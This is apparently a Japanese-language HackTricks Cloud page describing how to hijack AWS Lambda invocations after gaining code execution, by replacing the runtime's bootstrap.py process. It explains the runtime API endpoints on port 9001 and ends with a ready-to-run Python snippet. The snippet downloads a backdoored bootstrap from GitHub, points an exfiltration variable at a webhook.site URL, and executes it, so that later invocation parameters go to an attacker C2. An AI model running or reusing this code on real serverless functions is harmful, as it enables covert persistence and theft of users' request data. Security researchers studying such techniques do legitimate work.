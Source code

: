 # AWS - Lambdaリクエストの盗難

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

## Lambdaフロー

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer**はコンテナ外のプロセスで、**init**プロセスに**呼び出し**を**送信**します。
2. initプロセスはポート**9001**でリッスンし、いくつかの興味深いエンドポイントを公開しています：
* **`/2018-06-01/runtime/invocation/next`** – 次の呼び出しイベントを取得
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – 呼び出しのハンドラー応答を返す
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – 実行エラーを返す
3. **bootstrap.py**はinitプロセスから呼び出しを取得するループを持ち、ユーザーのコードを呼び出して処理します（**`/next`**）。
4. 最後に、**bootstrap.py**はinitに**応答**を送信します。

bootstrapはユーザーコードをモジュールとして読み込むため、ユーザーコードによって実行されるコードは実際にはこのプロセス内で発生しています。

## Lambdaリクエストの盗難

この攻撃の目的は、ユーザーのコードが脆弱なリクエストを処理する**`bootstrap.py`**プロセス内で悪意のある**`bootstrap.py`**プロセスを実行させることです。この方法で、**悪意のあるbootstrap**プロセスは**initプロセスと通信を開始**し、リクエストを処理しますが、**正当な**bootstrapは**悪意のあるものを実行しているため、initプロセスにリクエストを要求しません。

これは、ユーザーのコードが正当な**`bootstrap.py`**プロセスによって実行されているため、達成するのは簡単なタスクです。したがって、攻撃者は次のことができます：

* **現在の呼び出しの偽の結果をinitプロセスに送信**し、initがbootstrapプロセスがさらに呼び出しを待っていると考えさせる。
* **`/${invoke-id}/response`**にリクエストを送信する必要があります。
* invoke-idは、正当な**`bootstrap.py`**プロセスのスタックから[**inspect**](https://docs.python.org/3/library/inspect.html) Pythonモジュールを使用して取得することができます（[ここで提案されたように](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)）または再度**`/2018-06-01/runtime/invocation/next`**にリクエストすることでも取得できます（[ここで提案されたように](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)）。
* 次の呼び出しを処理する悪意のある**`boostrap.py`**を実行する。
* ステルス性の目的で、lambda呼び出しパラメータを攻撃者が制御するC2に送信し、その後リクエストを通常通り処理することが可能です。
* この攻撃では、システムから**`bootstrap.py`**の元のコードを取得するか、[**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py)から取得し、悪意のあるコードを追加して、現在のlambda呼び出しから実行するだけで十分です。

### 攻撃手順

1. **RCE**脆弱性を見つける。
2. **悪意のある** **bootstrap**を生成する（例：[https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py)）。
3. **悪意のあるbootstrapを実行する**。

これらのアクションは簡単に実行できます：
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
For more info check [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## 参考文献

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
